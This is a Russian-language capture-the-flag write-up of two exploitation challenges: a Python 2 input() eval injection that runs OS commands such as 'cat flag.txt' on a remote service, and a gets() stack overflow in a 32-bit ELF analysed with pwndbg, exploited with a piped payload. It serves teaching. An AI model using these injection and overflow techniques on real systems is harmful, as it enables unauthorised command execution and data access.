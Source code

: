 Безопасный калькулятор [Pwn 80]
================

Пользователю дан исходный код сервиса:
>print 'SuperCalc: '  
print (input())


Те, кто программируют на языке Python, знают опасность функции  
```input()```

– в python2 она эквивалентна функции  
```eval(raw_input())```


Следовательно, можем ее эксплуатировать.  
>$ ncat n****.ml 13376  
$ __import__(‘os’).system(‘ls’)  
$ __import__(‘os’).system(‘cat flag.txt’)



Невозможное возможно [Pwn 200]
================

У пользователя имеется исполняемый ```32bit elf``` файл, который также расположен на сервере.  
Отладим его с помощью *nix деббагера gdb.  
Первым делом посмотрим имеющиеся в программе функции:  
```pwndbg> info functions``` 

>All defined functions:  
Non-debugging symbols:  
0x0000046c  _init  
0x000004a0  strcmp@plt  
0x000004b0  gets@plt  
0x000004c0  fgets@plt  
0x000004d0  puts@plt  
0x000004e0  __libc_start_main@plt  
0x000004f0  fopen@plt  
0x00000510  _start  
0x00000550  __x86.get_pc_thunk.bx  
0x00000560  deregister_tm_clones  
0x000005a0  register_tm_clones  
0x000005f0  __do_global_dtors_aux  
0x00000640  frame_dummy  
0x00000649  __x86.get_pc_thunk.dx  
0x0000064d  func_A  
0x0000068d  main  
0x00000710  __libc_csu_init  
0x00000770  __libc_csu_fini  
0x00000774  _fini  


Посмотрим теперь ассемблерные листинги функций ```main``` и ```func_A```:   
```pwndbg> disassemble main```

>Dump of assembler code for function main:  
   0x5655568d <+0>:  lea    ecx,[esp+0x4]  
   0x56555691 <+4>:  and    esp,0xfffffff0  
   0x56555694 <+7>:  push   DWORD PTR [ecx-0x4]  
   0x56555697 <+10>:  push   ebp  
   0x56555698 <+11>:  mov    ebp,esp  
   0x5655569a <+13>:  push   ecx  
   0x5655569b <+14>:  sub    esp,0x14  
   0x5655569e <+17>:  sub    esp,0x8  
   0x565556a1 <+20>:  push   0x5655579c  
   0x565556a6 <+25>:  push   0x5655579e  
   0x565556ab <+30>:  call   0xf7e39a20 <fopen>  
   0x565556b0 <+35>:  add    esp,0x10  
   0x565556b3 <+38>:  mov    DWORD PTR [ebp-0xc],eax  
   0x565556b6 <+41>:  sub    esp,0x4  
   0x565556b9 <+44>:  push   DWORD PTR [ebp-0xc]  
   0x565556bc <+47>:  push   0x1e  
   0x565556be <+49>:  push   0x56557030  
   0x565556c3 <+54>:  call   0xf7e39770 <fgets>  
   0x565556c8 <+59>:  add    esp,0x10  
   0x565556cb <+62>:  call   0x5655564d <func_A>  
   0x565556d0 <+67>:  cmp    eax,0x5  
   0x565556d3 <+70>:  jne    0x565556e7 <main+90>  
   0x565556d5 <+72>:  sub    esp,0xc  
   0x565556d8 <+75>:  push   0x56557030  
   0x565556dd <+80>:  call   0xf7e3b2c0 <puts>  
   0x565556e2 <+85>:  add    esp,0x10  
   0x565556e5 <+88>:  jmp    0x565556f7 <main+106>  
   0x565556e7 <+90>:  sub    esp,0xc  
   0x565556ea <+93>:  push   0x565557a7  
   0x565556ef <+98>:  call   0xf7e3b2c0 <puts>  
   0x565556f4 <+103>:  add    esp,0x10  
   0x565556f7 <+106>:  mov    eax,0x0  
   0x565556fc <+111>:  mov    ecx,DWORD PTR [ebp-0x4]  
   0x565556ff <+114>:  leave    
   0x56555700 <+115>:  lea    esp,[ecx-0x4]  
   0x56555703 <+118>:  ret      
End of assembler dump.  


```pwndbg> disassemble func_A```

>Dump of assembler code for function func_A:  
   0x5655564d <+0>:  push   ebp  
   0x5655564e <+1>:  mov    ebp,esp  
   0x56555650 <+3>:  sub    esp,0x28  
   0x56555653 <+6>:  mov    DWORD PTR [ebp-0xc],0x1  
   0x5655565a <+13>:  sub    esp,0xc  
   0x5655565d <+16>:  lea    eax,[ebp-0x1c]  
   0x56555660 <+19>:  push   eax  
   0x56555661 <+20>:  call   0xf7e3aa40 <gets>  
   0x56555666 <+25>:  add    esp,0x10  
   0x56555669 <+28>:  sub    esp,0x8  
   0x5655566c <+31>:  push   0x56555790  
   0x56555671 <+36>:  lea    eax,[ebp-0x1c]  
   0x56555674 <+39>:  push   eax  
   0x56555675 <+40>:  call   0xf7f283b0  
   0x5655567a <+45>:  add    esp,0x10  
   0x5655567d <+48>:  test   eax,eax  
   0x5655567f <+50>:  jne    0x56555688 <func_A+59>  
   0x56555681 <+52>:  mov    eax,0x0  
   0x56555686 <+57>:  jmp    0x5655568b <func_A+62>  
   0x56555688 <+59>:  mov    eax,DWORD PTR [ebp-0xc]  
   0x5655568b <+62>:  leave    
   0x5655568c <+63>:  ret      
End of assembler dump.  


Разобравшись в ассемблерном коде можно определить, что в ходе ввыполнения программы происходит следующее: 

1) Считывание данных из файла ```flag.txt```
>0x565556c3 <+54>:  call   0xf7e39770 <fgets>

2) Ввод данных с клавиатуры 
>0x56555661 <+20>:  call   0xf7e3aa40 <gets>

3) Сравнение введенной строки с константной
>0x56555675 <+40>:  call   0xf7f283b0

Сама строка находится по адресу ```0x56555790```
>0x5655566c <+31>:  push   0x56555790

Можем узнать ее содержимое:  
```pwndbg> x/s 0x56555790```
>0x56555790:  "Hello World"

Если строки не равны, то выполнение программы продолжается.

4) Сравнение значения величины, которая расположена по смещению ```0x10 байт``` с величной ```0x05```  
```0x565556d0 <+67>:  cmp    eax,0x5```

Если значения равны, то выводится содержимое файла ```flag.txt```

Таким образом, можно сделать вывод, что для вывода содержимого файла ```flag.txt``` необходимо передать строку, не равную ```"Hello World"```, на 17й позиции которой расположено значение ```0x05```.

Проще всего это сделать следующим образом:

>```python -c "print 'a'*16 + '\x05'" | ncat n****.ml 13377```
